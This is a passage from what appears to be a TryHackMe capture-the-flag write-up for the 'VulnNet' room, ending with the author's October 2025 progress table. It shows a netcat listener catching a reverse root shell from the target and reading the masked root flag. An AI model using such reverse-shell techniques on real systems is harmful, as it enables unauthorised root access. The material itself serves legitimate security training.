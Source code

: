 <img width="1227" height="157" alt="image" src="https://github.com/user-attachments/assets/8ef47cde-8483-44ce-9155-7eaeb2bde190" />

<br>
<br>
<br>
<br>
<h1 align="center">Privilege Escalation & Root Flag<a id='8'></h1>

```bash
root@...:~/VulnNet# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 41920
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/server-management/Documents
# cd /root
# ls
root.txt
# cat root.txt
THM{********************************}
```

<img width="1170" height="275" alt="image" src="https://github.com/user-attachments/assets/38d58417-ca08-4e1e-baeb-ca9b15205994" />

<br>
<br>
<br>
<p>1.2. What is the root flag? (root.txt)<br>
<code>THM{********************************}</code></p>
<br>
<br>
<br>
<h1 align="center">Completed</h1>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/ac4e7796-26f6-462b-aa51-93968a1fd869"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/eb01a3a5-dd74-49bd-9c33-7e4ad6f14ea5"></p>

<h1 align="center">My TryHackMe Journey ・ 2025, October</h1>

<div align="center"><h6>

| Date   | Room                                  |Streak   |All Time<br>Global|All Time<br>Brazil|Monthly<br>Global|Monthly<br>Brazil|Points|Rooms<br>Completed|Badges|
|:------:|:--------------------------------------|--------:|------------:|------------:|------------:|------------:|------------:|------------:|------------:|
|6       |Medium 🚩 - VulnNet                    | 518    |     105ᵗʰ    |      4ᵗʰ     |     348ᵗʰ    |     5ᵗʰ    | 129.021  |    992    |    76     |
|6       |Easy 🚩 - DearQA                       | 518    |     105ᵗʰ    |      4ᵗʰ     |     333ʳᵈ    |     6ᵗʰ    | 128,991  |    991    |    76     |
|5       |Medium 🚩 - Frank & Herby try again.....| 517   |     106ᵗʰ    |      4ᵗʰ     |     300ᵗʰ    |     5ᵗʰ    | 128,931  |    990    |    76     |
|4       |Medium 🚩 - Frank & Herby make an app  | 516    |     105ᵗʰ    |      4ᵗʰ     |     233ʳᵈ    |     3ʳᵈ    | 128,871  |    989    |    76     |
|4       |Info ℹ️ - OverlayFS - CVE-2021-3493    | 516    |     105ᵗʰ    |      4ᵗʰ     |     235ᵗʰ    |     3ʳᵈ    | 128,841  |    988    |    76     |
|3       |Medium 🚩 - XDR: Operation Global Dagger2| 515  |     104ᵗʰ    |      4ᵗʰ     |     149ᵗʰ    |     3ʳᵈ    | 128,833  |    987    |    76     |
|3       |Medium 🚩 - VulnNet: dotpy             | 515    |     108ᵗʰ    |      4ᵗʰ     |     741ˢᵗ    |    11ˢᵗ    | 128,563  |    986    |    76     |
|2       |Medium 🔗 - Data Exfiltration Detection| 514    |     108ᵗʰ    |      4ᵗʰ     |     521ˢᵗ    |     8ᵗʰ    | 128,503  |    985    |    76     |
|1       |Medium 🔗 - Network Discovery Detection| 513    |     108ᵗʰ    |      4ᵗʰ     |     875ᵗʰ    |     7ᵗʰ    | 128,407  |    984    |    76     |
|1       |Medium 🚩 - Intranet                   | 513    |     108ᵗʰ    |      4ᵗʰ     |    3,357ᵗʰ   |    57ᵗʰ    | 128,335  |    983    |    76     |
